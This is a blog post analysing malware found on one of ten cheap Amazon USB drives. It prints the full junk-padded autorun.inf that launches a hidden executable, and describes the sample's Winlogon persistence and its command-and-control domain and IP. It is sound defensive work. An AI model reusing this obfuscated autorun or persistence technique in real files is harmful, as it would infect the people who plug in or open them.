



!# The Mystery of the Cheap Amazon Flash Drives

!## Published: September 24th, 2023 /// Last Edited: September 24th, 2023

#TOC#

## Purchasing the USB drives

Upon noticing that I was running low on USB drives, I decided to search Amazon for some new ones. I went to the electronics category and searched for `USB stick 10 pack`. The top result was this listing featuring 10 small capacity USB drives for a very affordable $32: [https://www.amazon.ca/gp/product/B093ZT558S/](https://www.amazon.ca/gp/product/B093ZT558S/).

The listing was Amazon Choice, had 4.6 stars from over 1000 reviews, and was ranked 652 in the Amazon electronics category (and ranked 24 for USB flash drives). The reviews seem to be from legitimate customers claiming that the product works great and how they store memorial pictures and projects on them. There were a few 1 stars claiming how the drives failed out of the box, but for the most part the product looked good. A price of $32 also seemed very reasonable for 10 small capacity USB drives (about $3.20 for each flash drive).



I decided to go ahead and purchase the flash drives. Within a few days they arrived at the doorstep. I opened the Amazon package and found a small box, with all 10 USB sticks nicely aligned in a styrofoam cutout.

#IMGSML# usbinbox.jpg
#CAPT# USB flash drives sitting in the box they came in.

## The discovery

Because of the 1 star reviews I noticed on Amazon regarding the flash drives failure rate, I decided to test them out before storing data on them. I grabbed a random USB drive and plugged it into my Linux computer. After browsing to the drive, a file and folder was already present on the drive.

The file was called `autorun.inf` (a file used in pre-win7 to tell the computer how to automatically run software present on removable devices), and the folder was called `RECYCLER`.


#CAPT# The root of the USB flash drive.

Upon opening the AutoRun file in a text editor, it seems to just be garbled text at first glance until you look deeper and see the AutoRun statement. Here is the AutoRun file in its entirety, with line breaks to emphasize the actual AutoRun commands:

#DROP# AutoRun script
```
RmNtVQKqRqABPFnahBQXKljrxToGNkkngQoigQQOmxBjEaosmakdSLXTxG
NQtPljaNVmboqhfqemotwSWuwoYSFjCdsWVBMKGncTUEVTMqoXxCaEtclJljc
wTpICbQSttfPMQnnnHSxdgvYAFhTxyXiWiCjoynesCVxhYDATPTNEKcVBFrwTmOGZcHuBsxnkUYoHQYZULPThuBFowEJpxdkGRp
QaRPXKBaRgeHLIWLUVwCnqpataxHYPNUuYpdjSdslZQcWlZLOyjnSHAfPgUjXfShinjCbKtJTDjOFYHNAgwvWRfDgEJ
DRKDovGuVsXnctFubWUECysxPlxRUFDwlXgtxVMiJRotgeXPInDxsZffdrZqIKTiquKL
yGLUHFVHoXNpkTCIBvAEHeTlJOJBUMpikLmSurecsFBtTSxMQLjvYXbFGXpV
GmRjyuwvVZODAXbENoUZrQYEsRONLEnWRJxAPOFPgQdXbOjQPHhlxffuqbl
dYnEnKAyjrqgFIyCgceFdRKvEgxvZEbIgbtUbIPrclZcdGBDeCJmkyvePFaEfaihVoexNgWAjVcJdRlYPZjTNyjQZqOFBJrcQ
TGefNpeDUhhgTgBIOjHIeixMSYASGdPKJOpMqpkEsKVHaUkIumFkZCBdufsYGgI
WFFnBsRTXJxWXEmRJfcZAvFaBmFYlDPfXOAthRxQwqaUMhkAMMcnaVKqwRkUGIGRnBMbxkYNhUOAGFVQtn
hfPyaskaLgkWwQCluxKyijoiFqEsRtGakfSyKatQhfUKjCYgjGStZnbWDdxvUgtlUtDJAcTVkGMdobWwJxYIAJlIka
pgayNyPZUukYevVdMnTHLhfSweZISLQiauZQqSLWaHxumWrYoSdvOwecNLjjBHxn
NVTOSMmsgjFsfBIImnmiPsihMumIhoxcYXvVcOhtWBtYDweEElrWnmEdilbMhAjjWjV
jPbIJUxwcxSuZmedUtjLbPLDqiQTjtTIgFycuBUSAjxYUaiqNgBNaayhcfeIgFjJQnZEcLIqlbHkwWxh
CqPZPgMmyROffSopNykBrqVoMsUQtqpnuioZwURIZdcYwkjghXRfWJOrLTU
GioZICLuBbymqfabnQRCQbKYBglNiHJpbIFwFeYqVEhMOPkNenyrdiu
xdCBBQQuGJogcStYbWgtGowRXEupTwZBwrEVSKwHhZiglCcmqSSutCiCKrBPKYZGMpCwTWfbcSbmHlllmPAIlXlHLLpYaFBiGw
GLcHXpCoIhZxeEGJFrxAdndwDkYZmPWUiGPLHbkFuJWSuMpAXMJpNWtgDVKEFRjoUkDyekjhCFOXqaYXMjEkvBakYf
pucNsGopElaVhgJQnMubVGekoFKflfyenxBBNZaoJllbqDgghumlFuQZPQApL
DrZXwvpGPsvJgerjXXdlEqaHmtUAZjKWyPJvZIMUkUaqfFuQoVbrpHOdJpTbijTXpMtwsKdgbRldKCHPDBtbtxlJ
diApNfZYdasrNgynakrqUsbXbGjpSTWNZckeowvRbvCfXMTZvPLQLXvVdNJNh
rYVnJOxbewIaFNsnSCXrRHdSVeYaxwIsMbmelkbsbqvQtXyAwgdABSBjwOYZeUOYXaqELtifrUQnAqGx
ZJEDpbgXAMUlnwqhHbfJcigCWQVCWEfQEBINItLfjjPRTPMZGHvwsFHe
LLZyYfdTvZFVHQcKCUZTqBKiUrYwRVrsjZBFXMGykjfMDQalUxeIAaqNCaWKmOFReKxmxXcVFwyJU
uTYSSOoScnpglECgEVULhPcyWKVkfsbMuAhFamnYMxoyZooNnToLburHxPfgGKlBtgdNjbMUyegSoanoOpjLaFqOUmDRvaVgEI
cfAPeBTRYAgmvBrSCKFMsBRtmxcGWGmZIqOpDQybvKKukmvETgSdNBJUoRatS
hmxwZOHfFsQHFhBUhAGlBMKSrRrLIwcgxZFZlitdZTqmdIMAExcVycYc
UghFAGSWpfmpTqBksUEeGopCUUvphUNXvFEPsqoDiMZnQnSlKBIPpEiRoYgUPtYrQPwGSXxSEtyykMQIyRrGGWeuyb
lvjbQVDjOuvwsmQEIpKXrxmvwcRxIZUkONjSAbaLQtwbOaRRNkvDbnPhvOVs
mfDHScimgyOvdAlluhBCQxsRZrDckLEEbhcswiAGWncYxoChLPNbpREFKradbmvJlyqeiiiQwU
VyMAYnBmNyhkIgYWfcxqusWDGpILWEtPPgfkfXUYluGhaqoIaGimuwicLfxvJR
JfYpHLjyplijIEoAyZsIIXvPpUAoBTegLrrINONPtCrFjJVCVo
fVmXmtuqGqjVQROFGokYJuBdtEsecaYsGoTnLREhxKrTerWIvsMKkFqeqHAQFSeZ
UkvQeKHBYiFCOCNkuqdiAwvqWKlTeeusivsJZwULfLpaqVVhhPgLCoIaaikbZVZqDdrPvRXDZPJWlPAVVBT
QyRGBYYsTDkRUPRjOILqJNZGHKxwGttnBqwwtKglwMlQtEuCiGRynWYyTvwrcQsLMxbclnPCFYnCjmTEbmHKd
dLImxoBAKXxtAUyyfXHyFnGOBTyJnEPDAhhGDkbYKMXhbiAqcmAqIIrMNnQiWdXAwXJgZgViPVMNCnIVRSCsZthaL
QfFxAfJstvqpCsMoToNcZfefaZadhXFdIUbjSKieVAXbxOayXWMhh
NXBYKLDmKMGvwOLxtjhhhDNBlDksLXIWUAlcDMHGgipvBmJBdBDvmOsvLAklujbiPrbjOdQTVRkhYDwanSreO
fMGwDtWvrBJqNjnxWfgCnTFJsRCleExnfRkEADNWUBAXghjRVmNtFaRkdQVfwroXAUVSAgDXHRIilE
cZKjTHZFPQNayDtQHehGfNqOhrrGMawOxLScgrAIXTIPhOShjsIBBfNoCChRco
MhKohKpjMjjXbGlaLNLYOiaBFdflYghBoFIbqfgjLMFDkAhGuMcMtsqpQfAJTQPOwVhWumdDlbekJOP
NFgWbYGbrCkbHAVQNQaRlPRAZGgPHdmaMZsmBKYvESOaiyFiEQlQuUDerfEbEwGySZDsKuZmQMdvLGXHxgyhxl
qVVsWxrWpXtxdMVZZWEMPwSjPKuAZkWfLoAeLfMZOvdAVHjGxYBqOnWPdDJ
rScuKfJOhhVCboGEuauqjgYoXlWktxnqQjkqjNxSBSeXHWMIwRgEAaaObtcAynNaYQxmLPIxZuZolerkwTVdiiZXXZRSOVI
ZpcjDDwywglltOGbyNhYOyqqOWBGqyAOARnOyKGiTwBvkYwieLNfQZcJoJaITnIyUrO
RZhSdxZGhAgGpHpHmRlIMlJIefMQxCshtXbfGXYvpxYGqVnJcbobkDKCuoJKyXMLaiGQbvkDbBphVBqNa
mLWhwcahInPJBbuYcHfUEadpgnDkkyFyPspOxiDSHmdHQGMCfOIKQIhT
qaWdHNWnZgIqJiZWhKBsjVSQbeDIwWmByqxOqoGcjtSgXAYqyTixkqWXehoTUrXhfIvSqKjd
SfODAnHYncgawonQIhhOyVsbMRNvHnJYjOAcwwfcOAXBboDjbxehHqpMqqP
LkDtapyHqDhySmEVlWgSfvHlIaWlCXDYJbZkMkFYEOYHEDiaQgODpLiodwHMWs
HEHfeAkcWlRKRedPZPigfJOrWkbVmcohtWvPpbRZsNUbDvwrjDKUgIphcSBfWQJU
ITkoxevGLMEkEihnNskQvrCsXqlLTJiDrjAtLiZVCvBVtnRYDfjtyLbQcliHTxWcoHrWtd
TFnoCtOitHCxryytbSLbAWIXUeoTbQBVJiRDlQxGkQpplFayOhPHNoWj
tcRLiEGylMhIVcQjPUFJgbDFTvlOpMxEfwHpQhBXGPBqxYJqIIBhYxLpEEVOBDieEZSBTGtRSYrijSATborNHTrCiqgRjG
TMLaliBeXUWbZAThjsMNayCMQrJugxAJuPMcJKVICCsvPIVyPZHYGEInmNWMfOJKqohxK
sGBjjgpknLyWdLkuNtMfpvwrQBZGmdvfYjCaqKZeXFmBHjQJYZJbrViOFYIKtYEqPuQReSUdKTDKPJucyecRDGMMfcrSIhQn
KtfpmCBiPZGDfBhnBgBukYELhwBYRREgPffnAmlOaAYlaLXlFKncWJBhnVyiBfiXGq
cZwqBCNmpVCFfmJdyIqSZIBmuFYOwMnopqmqoFKYgDHMewxwxNkPYyYlcEOWqdratLPaStWeT
EIBtjETlYECpMedFmkCvQDUAqjmdrdCKKjHUdythgjHRGsuwsEeOkCBxBCjdYEwawxIAJZGqeYBBc
PrwFLPoAXMnGkXAVQPFBgOnZUIjHuootuhIciEdXdUNYpVNIwWdSlQNGJY
EPKTKFAknIaNtMZWxxGsqXJFIuQqXrKgewrpTuhOyfGsgARQCHgnnhfQyMxQYTPZugDFlpaQViJdD
OjAlYQqvKaDUbqHUXnnSrFasjWNTMYZgielnLYkEpIMSHbHHqCWJTTLHDvyfZNQDPqiYgMEvLMDKooiNwFxclyKPVRYMyNXiIL
dopsXkASYmfFCscDyeQEtxsrKiwTWHqeACNGYQBTeKwbiROfXkQhZrBVdjitKyCHkwMxwSPrMDMcBemeiiraGtNAoZgmCXDSTOF
viNAgHCgLimXcalToCcAwgvHAsJvlAfaWLakVWLZGJUttNKVdeYKPmEIJuXKAPqMDQHhMv
tCYXTeiKeUeREMiQalHQIIxMroZMBjaHqqoiPjARJWtySyakjEJmRikxNIcYOu
DjvUAxltRwCxQQxFMAGJiUuMVBaJXUfgSgLpgYnHgdHWbTbAwhVkIFtLNWBCtfokNTEBpJiIRVCHWSrprZroNsN
ZZkFwfFPSJrDnZXpXOydRQexhdgYsWMMUsFkhYYUFdiPtaEOBnRWgAMNHQxmyaoFYvGFmlR
tsCiHUEUSkMZgJupURPYqEJINvQVwEvieYcGinsTeqLPLHlTpuMNKowoeRObdgHHkbl
HItRoChxHdetyrijbxrRwvSdqCsXWGnZVrGvMuXkkEiBBwgwNtydirwJNpYPFwMDv
qonHrUnKLTyxVkHbrmGXMGgVPxRlHXrIriSWJcWfDfcBQXiASYVjHmpqLQU
NZKwaueUyUEDqLCWuCQuIScyOmfVqsgnstUNJijmrYRfTeidKJvNhcVHfVZftPCGIiUhNuVLCvZbvUtYISdOicYpeUZyyn
Fna

[autorun]
action=Open
icon=%WinDir%\system32\shell32.dll,4
shellexecute=.\RECYCLER\S-1-5-72-6745404284-0241205730-322481827-2122\GMxSFpvm.exe
shell\explore\command=.\RECYCLER\S-1-5-72-6745404284-0241205730-322481827-2122\GMxSFpvm.exe
USEAUTOPLAY=1
shell\Open\command=.\RECYCLER\S-1-5-72-6745404284-0241205730-322481827-2122\GMxSFpvm.exe

tVQKqRqABPFnahBQXKljrxToGNkkngQoigQQOmxBjEaosmakdSLXTxG
NQtPljaNVmboqhfqemotwSWuwoYSFjCdsWVBMKGncTUEVTMqoXxCaEtclJljc
wTpICbQSttfPMQnnnHSxdgvYAFhTxyXiWiCjoynesCVxhYDATPTNEKcVBFrwTmOGZcHuBsxnkUYoHQYZULPThuBFowEJpxdkGRp
QaRPXKBaRgeHLIWLUVwCnqpataxHYPNUuYpdjSdslZQcWlZLOyjnSHAfPgUjXfShinjCbKtJTDjOFYHNAgwvWRfDgEJ
DRKDovGuVsXnctFubWUECysxPlxRUFDwlXgtxVMiJRotgeXPInDxsZffdrZqIKTiquKL
yGLUHFVHoXNpkTCIBvAEHeTlJOJBUMpikLmSurecsFBtTSxMQLjvYXbFGXpV
GmRjyuwvVZODAXbENoUZrQYEsRONLEnWRJxAPOFPgQdXbOjQPHhlxffuqbl
dYnEnKAyjrqgFIyCgceFdRKvEgxvZEbIgbtUbIPrclZcdGBDeCJmkyvePFaEfaihVoexNgWAjVcJdRlYPZjTNyjQZqOFBJrcQ
TGefNpeDUhhgTgBIOjHIeixMSYASGdPKJOpMqpkEsKVHaUkIumFkZCBdufsYGgI
WFFnBsRTXJxWXEmRJfcZAvFaBmFYlDPfXOAthRxQwqaUMhkAMMcnaVKqwRkUGIGRnBMbxkYNhUOAGFVQtn
hfPyaskaLgkWwQCluxKyijoiFqEsRtGakfSyKatQhfUKjCYgjGStZnbWDdxvUgtlUtDJAcTVkGMdobWwJxYIAJlIka
pgayNyPZUukYevVdMnTHLhfSweZISLQiauZQqSLWaHxumWrYoSdvOwecNLjjBHxn
NVTOSMmsgjFsfBIImnmiPsihMumIhoxcYXvVcOhtWBtYDweEElrWnmEdilbMhAjjWjV
jPbIJUxwcxSuZmedUtjLbPLDqiQTjtTIgFycuBUSAjxYUaiqNgBNaayhcfeIgFjJQnZEcLIqlbHkwWxh
CqPZPgMmyROffSopNykBrqVoMsUQtqpnuioZwURIZdcYwkjghXRfWJOrLTU
GioZICLuBbymqfabnQRCQbKYBglNiHJpbIFwFeYqVEhMOPkNenyrdiu
xdCBBQQuGJogcStYbWgtGowRXEupTwZBwrEVSKwHhZiglCcmqSSutCiCKrBPKYZGMpCwTWfbcSbmHlllmPAIlXlHLLpYaFBiGw
GLcHXpCoIhZxeEGJFrxAdndwDkYZmPWUiGPLHbkFuJWSuMpAXMJpNWtgDVKEFRjoUkDyekjhCFOXqaYXMjEkvBakYf
pucNsGopElaVhgJQnMubVGekoFKflfyenxBBNZaoJllbqDgghumlFuQZPQApL
DrZXwvpGPsvJgerjXXdlEqaHmtUAZjKWyPJvZIMUkUaqfFuQoVbrpHOdJpTbijTXpMtwsKdgbRldKCHPDBtbtxlJ
diApNfZYdasrNgynakrqUsbXbGjpSTWNZckeowvRbvCfXMTZvPLQLXvVdNJNh
rYVnJOxbewIaFNsnSCXrRHdSVeYaxwIsMbmelkbsbqvQtXyAwgdABSBjwOYZeUOYXaqELtifrUQnAqGx
ZJEDpbgXAMUlnwqhHbfJcigCWQVCWEfQEBINItLfjjPRTPMZGHvwsFHe
LLZyYfdTvZFVHQcKCUZTqBKiUrYwRVrsjZBFXMGykjfMDQalUxeIAaqNCaWKmOFReKxmxXcVFwyJU
uTYSSOoScnpglECgEVULhPcyWKVkfsbMuAhFamnYMxoyZooNnToLburHxPfgGKlBtgdNjbMUyegSoanoOpjLaFqOUmDRvaVgEI
cfAPeBTRYAgmvBrSCKFMsBRtmxcGWGmZIqOpDQybvKKukmvETgSdNBJUoRatS
hmxwZOHfFsQHFhBUhAGlBMKSrRrLIwcgxZFZlitdZTqmdIMAExcVycYc
UghFAGSWpfmpTqBksUEeGopCUUvphUNXvFEPsqoDiMZnQnSlKBIPpEiRoYgUPtYrQPwGSXxSEtyykMQIyRrGGWeuyb
lvjbQVDjOuvwsmQEIpKXrxmvwcRxIZUkONjSAbaLQtwbOaRRNkvDbnPhvOVs
mfDHScimgyOvdAlluhBCQxsRZrDckLEEbhcswiAGWncYxoChLPNbpREFKradbmvJlyqeiiiQwU
VyMAYnBmNyhkIgYWfcxqusWDGpILWEtPPgfkfXUYluGhaqoIaGimuwicLfxvJR
JfYpHLjyplijIEoAyZsIIXvPpUAoBTegLrrINONPtCrFjJVCVo
fVmXmtuqGqjVQROFGokYJuBdtEsecaYsGoTnLREhxKrTerWIvsMKkFqeqHAQFSeZ
UkvQeKHBYiFCOCNkuqdiAwvqWKlTeeusivsJZwULfLpaqVVhhPgLCoIaaikbZVZqDdrPvRXDZPJWlPAVVBT
QyRGBYYsTDkRUPRjOILqJNZGHKxwGttnBqwwtKglwMlQtEuCiGRynWYyTvwrcQsLMxbclnPCFYnCjmTEbmHKd
dLImxoBAKXxtAUyyfXHyFnGOBTyJnEPDAhhGDkbYKMXhbiAqcmAqIIrMNnQiWdXAwXJgZgViPVMNCnIVRSCsZthaL
QfFxAfJstvqpCsMoToNcZfefaZadhXFdIUbjSKieVAXbxOayXWMhh
NXBYKLDmKMGvwOLxtjhhhDNBlDksLXIWUAlcDMHGgipvBmJBdBDvmOsvLAklujbiPrbjOdQTVRkhYDwanSreO
fMGwDtWvrBJqNjnxWfgCnTFJsRCleExnfRkEADNWUBAXghjRVmNtFaRkdQVfwroXAUVSAgDXHRIilE
cZKjTHZFPQNayDtQHehGfNqOhrrGMawOxLScgrAIXTIPhOShjsIBBfNoCChRco
MhKohKpjMjjXbGlaLNLYOiaBFdflYghBoFIbqfgjLMFDkAhGuMcMtsqpQfAJTQPOwVhWumdDlbekJOP
NFgWbYGbrCkbHAVQNQaRlPRAZGgPHdmaMZsmBKYvESOaiyFiEQlQuUDerfEbEwGySZDsKuZmQMdvLGXHxgyhxl
qVVsWxrWpXtxdMVZZWEMPwSjPKuAZkWfLoAeLfMZOvdAVHjGxYBqOnWPdDJ
rScuKfJOhhVCboGEuauqjgYoXlWktxnqQjkqjNxSBSeXHWMIwRgEAaaObtcAynNaYQxmLPIxZuZolerkwTVdiiZXXZRSOVI
ZpcjDDwywglltOGbyNhYOyqqOWBGqyAOARnOyKGiTwBvkYwieLNfQZcJoJaITnIyUrO
RZhSdxZGhAgGpHpHmRlIMlJIefMQxCshtXbfGXYvpxYGqVnJcbobkDKCuoJKyXMLaiGQbvkDbBphVBqNa
mLWhwcahInPJBbuYcHfUEadpgnDkkyFyPspOxiDSHmdHQGMCfOIKQIhT
qaWdHNWnZgIqJiZWhKBsjVSQbeDIwWmByqxOqoGcjtSgXAYqyTixkqWXehoTUrXhfIvSqKjd
SfODAnHYncgawonQIhhOyVsbMRNvHnJYjOAcwwfcOAXBboDjbxehHqpMqqP
LkDtapyHqDhySmEVlWgSfvHlIaWlCXDYJbZkMkFYEOYHEDiaQgODpLiodwHMWs
HEHfeAkcWlRKRedPZPigfJOrWkbVmcohtWvPpbRZsNUbDvwrjDKUgIphcSBfWQJU
ITkoxevGLMEkEihnNskQvrCsXqlLTJiDrjAtLiZVCvBVtnRYDfjtyLbQcliHTxWcoHrWtd
TFnoCtOitHCxryytbSLbAWIXUeoTbQBVJiRDlQxGkQpplFayOhPHNoWj
tcRLiEGylMhIVcQjPUFJgbDFTvlOpMxEfwHpQhBXGPBqxYJqIIBhYxLpEEVOBDieEZSBTGtRSYrijSATborNHTrCiqgRjG
TMLaliBeXUWbZAThjsMNayCMQrJugxAJuPMcJKVICCsvPIVyPZHYGEInmNWMfOJKqohxK
sGBjjgpknLyWdLkuNtMfpvwrQBZGmdvfYjCaqKZeXFmBHjQJYZJbrViOFYIKtYEqPuQReSUdKTDKPJucyecRDGMMfcrSIhQn
KtfpmCBiPZGDfBhnBgBukYELhwBYRREgPffnAmlOaAYlaLXlFKncWJBhnVyiBfiXGq
cZwqBCNmpVCFfmJdyIqSZIBmuFYOwMnopqmqoFKYgDHMewxwxNkPYyYlcEOWqdratLPaStWeT
EIBtjETlYECpMedFmkCvQDUAqjmdrdCKKjHUdythgjHRGsuwsEeOkCBxBCjdYEwawxIAJZGqeYBBc
PrwFLPoAXMnGkXAVQPFBgOnZUIjHuootuhIciEdXdUNYpVNIwWdSlQNGJY
EPKTKFAknIaNtMZWxxGsqXJFIuQqXrKgewrpTuhOyfGsgARQCHgnnhfQyMxQYTPZugDFlpaQViJdD
OjAlYQqvKaDUbqHUXnnSrFasjWNTMYZgielnLYkEpIMSHbHHqCWJTTLHDvyfZNQDPqiYgMEvLMDKooiNwFxclyKPVRYMyNXiIL
dopsXkASYmfFCscDyeQEtxsrKiwTWHqeACNGYQBTeKwbiROfXkQhZrBVdjitKyCHkwMxwSPrMDMcBemeiiraGtNAoZgmCXDSTOF
viNAgHCgLimXcalToCcAwgvHAsJvlAfaWLakVWLZGJUttNKVdeYKPmEIJuXKAPqMDQHhMv
tCYXTeiKeUeREMiQalHQIIxMroZMBjaHqqoiPjARJWtySyakjEJmRikxNIcYOu
DjvUAxltRwCxQQxFMAGJiUuMVBaJXUfgSgLpgYnHgdHWbTbAwhVkIFtLNWBCtfokNTEBpJiIRVCHWSrprZroNsN
ZZkFwfFPSJrDnZXpXOydRQexhdgYsWMMUsFkhYYUFdiPtaEOBnRWgAMNHQxmyaoFYvGFmlR
tsCiHUEUSkMZgJupURPYqEJINvQVwEvieYcGinsTeqLPLHlTpuMNKowoeRObdgHHkbl
HItRoChxHdetyrijbxrRwvSdqCsXWGnZVrGvMuXkkEiBBwgwNtydirwJNpYPFwMDv
qonHrUnKLTyxVkHbrmGXMGgVPxRlHXrIriSWJcWfDfcBQXiASYVjHmpqLQU
NZKwaueUyUEDqLCWuCQuIScyOmfVqsgnstUNJijmrYRfTeidKJvNhcVHfVZftPCGIiUhNuVLCvZbvUtYISdOicYpeUZyyn
Fna
```
#PORD#

It is very obvious that whoever built this AutoRun file did not want people to see the AutoRun statement, and likely wanted people to instead think it was some computer garble.

Upon realizing the file it tries to execute is a Windows executable called `GMxSFpvm.exe`, I backed up the contents of the USB drive and removed it from my system. Since AutoRun is targeted towards Windows systems, and no Linux payloads were present on the drive, I was thankfully not infected.

## Analysis of the USB contents and `GMxSFpvm.exe`:

As we know, the AutoRun script launches a file named `GMxSFpvm.exe` located at the following path: 

```
\RECYCLER\S-1-5-72-6745404284-0241205730-322481827-2122\
```

Here is a list of hashes for `GMxSFpvm.exe`:

```
MD5: 9cf62cddf7bcc106d36e84166228a36e 
SHA1: a198ff0d61d8fa3df118431cd61a7a57655850c9 
SHA256: 1c44202012ab417118ae620e78cd06669b009717e19f972365de8aa9a0fd8573 
```

Uploading the file to VirusTotal reveals that the file is indeed [malware](https://www.virustotal.com/gui/file/1c44202012ab417118ae620e78cd06669b009717e19f972365de8aa9a0fd8573), with 63 out of 71 antivirus vendors flagging the file as malicious.

The file was then uploaded in [any.run](https://app.any.run/tasks/f3b3f9df-2bfd-41ec-8153-b89724f776f7), a tool that runs submitted samples in virtual machines and reports back to the user what occurred during execution. The only change made before execution was telling any.run to run the executable through Command Prompt (`cmd.exe`) with the `/k` parameter. This tells Windows to keep the Command Prompt window open after execution so we can see if the program outputs any text into the terminal window (which it did not).

After testing the malware in the any.run virtual machine, we can view the details about the session. Any.run's Processes Graph tells us Command Prompt proceeded to run `GMxSFpvm.exe` (as expected).

After `GMxSFpvm.exe` is run, the file proceeds to make a folder in the parent directory called `Microsoft` and places a new file called `DesktopLayer.exe` in that folder.

`DesktopLayer.exe` is then launched, and writes to system registry path `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`. Usually this is set to an executable in Windows called `userinit.exe`, however the program will try to add its own path on the system. This allows it to run again when the user logs into the computer.

`DesktopLayer.exe` then runs a hidden instance of `iexplore.exe` (Microsoft's Internet Explorer). `iexplore.exe` opens a new TCP connection to the domain name `fget-career.com`. This can be seen in Any.run's IOC page.

## A look into `fget-career.com`

Performing a [whois lookup](https://www.whois.com/whois/fget-career.com) on the `fget-career.com` domain reveals that the domain has been registered through DynaDot since June 7th, 2016. The remaining information has been privatized through DynaDot. This is a common feature that allows a company to protect the identities of those who have purchased their domains. If not renewed, the domain will expire on June 7th, 2024.

We are able to see through any.run that the domain resolves to IP address `34.175.230.209` port `443`, which is a command-and-control server.

The aforementioned IP address is [hosted by Google Cloud Platform in Spain](https://whatismyipaddress.com/ip/34.175.230.209). This indicates that this command and control server is likely hosted or proxied by someone who is running a server through google.

Sending web requests to the IP address directly will reveal its web server to be lighttpd version 1.4.53.

## So what is inside these USB flash drives?

Let's go back to the USB flash drives and take a few apart to see what exactly is inside of them.

First, take off the metal cover by pulling apart on each end until the metal separates from the plastic clip. The fastest way to get to the internal circuitry is to take a pair of needle-nose pliers and hold the USB stick by the connector. The USB flash drive should be laying on its side with the plastic seam facing upwards. Take a hammer and gently tap the side until the 2 plastic housings split apart, revealing the internal board. You can also open the housing by carefully wiggling the connector back and forth until the pins holding the housing begin to separate. You should then be able to pull apart the plastic to free the board inside.


#CAPT# 3 USB flash drives from the set without their housing.

Immediately we can see 2 chips on the board. The chip on the underside of the board is labeled the following (anything that doesn't align across all 3 chips has been replaced with `#`):

```
SAMSUNG     33#
KMN5W000ZM-B207
   GPH#####
```

If we look up `samsung KMN5W000ZM-B207` online we will find that [Octopart](https://octopart.com/kmn5w000zmb207-samsung-128264105) has a listing for this chip. The listing does indicate an embedded multi-media card capacity of 4GB, which is the advertised capacity on the Amazon listing. However, there seems to be no public data sheet available for this chip.

The chip on the top side of the board reads the following:

```
Chipsbank
CBM2199E
AP2Y960
```

When looking up `Chipsbank CBM2199E` online we are presented with a slew of download links for reprogramming tools. We can determine from the search results that this chip can be reprogrammed very easily by the vendor building the USB flash drive. In fact, [this superuser.com post from resurepus](https://superuser.com/questions/1681266/brand-new-fake-samsung-32-gb-usb-flash-drive-destroyed-trying-to-make-a-bootab) showcases a fake Samsung USB flash drive (with the same model of chip) that refused to work until the poster reprogrammed the drive themselves. The issues presented in the superuser.com post aligns with the multiple 1 star Amazon reviews where customers were left pondering as to why their flash drive doesn't work, regardless if its straight from the box or during its lifespan.

## What's next? 

I have checked the other 9 USB flash drives for malware and the rest seemed to either have temporary Windows files or nothing at all. This is odd because out of all 10 flash drives, only 1 will actually cause harm, which makes this seem almost intentional.

When this blog post goes live, I will make an attempt at contacting Amazon regarding this seller. I am not seeking a refund (this alone was $32 of enjoyment for me) but I do want to bring this to Amazon's attention as it is a popular product.

I will also make an attempt to contact Walmart as USB flash drives are [also being sold](https://web.archive.org/web/20230924094922/https://www.walmart.ca/en/ip/usb-stick-flash-drive-4gb-5-pack-alihelan-usb-2-0-thumb-drive-swivel-memory-stick-bulk-jump-drive-pen-drive-zip-drive/PRD5C3C48NJ56LI) on their marketplace through this seller.

As for reporting the malware itself, it's already been discovered around 2010. In fact, former Trend Micro researcher Roland Dela Paz has made a [report](https://www.trendmicro.com/vinfo/us/threat-encyclopedia/malware/pe_ramnit.h) about it, so chances are most antivirus engines already know about it.

As for figuring out *why* malware is present on the flash drive in the first place, I believe it could be a result from 1 of 4 things:

* These USB flash drives (or their circuitry) are returned and resold or being recycled from old components. As such the old files are preserved.
* The systems at the manufacturing plant these USB flash drives originate from are infected, and have been dropping this payload during the assembly process.
* A business is deliberately planting malware on the USB flash drives during the manufacturing process to infect customers.
* I have been sent a returned item without the USB flash drives being wiped.

We will likely never know which one of these it is, but you should always remain vigilant when purchasing non-name brand USB flash drives.

## Updates

